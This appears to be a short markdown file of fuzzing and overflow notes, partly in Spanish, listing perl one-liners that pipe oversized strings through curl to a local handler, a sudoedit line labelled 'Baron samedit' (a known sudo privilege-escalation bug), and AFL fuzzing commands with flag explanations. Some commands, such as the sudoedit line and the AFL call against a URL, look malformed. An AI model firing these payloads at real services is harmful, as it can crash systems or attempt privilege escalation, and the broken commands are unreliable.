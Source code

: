 # Payloads

perl -e 'print "A" x 20' | curl -k -d @- localhost:8080/handler

    sudoedit -s \\ perl -e 'print "A" x 20' (Baron samedit)

    afl-fuzz -i in -o out ./your_program @@

    afl-fuzz -i in -o out -U http://localhost:8080/handler @@


-i in: Directorio que contiene los casos de prueba iniciales.
-o out: Directorio donde se almacenarán los resultados del fuzzing.
./your_program: Ruta al ejecutable instrumentado de tu programa.
@@: Un marcador especial que indica que AFL debe pasar los casos de prueba como argumento a tu programa.



perl -e 'print "A" x 200000000' | curl -k -d @- localhost:8080/handler curl: (55) Send failure: Connection reset by peer

> El anterior es un error de curl.



